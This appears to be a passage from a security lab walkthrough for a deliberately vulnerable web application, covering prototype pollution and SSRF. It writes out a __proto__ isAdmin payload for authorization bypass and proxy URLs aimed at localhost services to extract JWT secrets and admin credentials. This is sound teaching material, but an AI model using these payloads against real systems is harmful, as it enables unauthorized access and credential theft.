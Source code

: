 ## 6. Prototype Pollution for Authentication Bypass

**Objective**: Alter JavaScript object behavior to bypass authorization checks

### Discovery
1. The application has an endpoint that merges user settings:
   ```
   POST /api/merge-settings
   ```
2. This endpoint uses an unsafe recursive merge function
3. Test for prototype pollution by sending:
   ```json
   {
     "__proto__": {
       "isAdmin": true
     }
   }
   ```

### Exploitation
1. The pollution modifies the behavior of all JavaScript objects in the application
2. The authentication check endpoint uses an empty object in its comparison:
   ```
   GET /api/check-admin
   ```
3. The polluted prototype causes the empty object to have `isAdmin: true`
4. This bypasses authorization checks that rely on object properties
5. Access admin functionality without actually being an admin

## 7. Server-Side Request Forgery (SSRF)

**Objective**: Access internal services and endpoints that are not publicly accessible

### Discovery
1. Identify the proxy endpoint that makes server-side requests:
   ```
   GET /api/proxy?url=https://api.github.com/users
   ```
2. Test if it allows requests to internal services:
   ```
   GET /api/proxy?url=http://localhost:3000/internal/config
   ```
3. Discover that the application runs an internal admin service:
   ```
   GET /api/proxy?url=http://127.0.0.1:3001/admin-dashboard
   ```

### Exploitation
1. Access internal endpoints on the main application:
   ```
   GET /api/proxy?url=http://localhost:3000/internal/config
   ```
   This reveals sensitive information like JWT secrets and admin credentials.
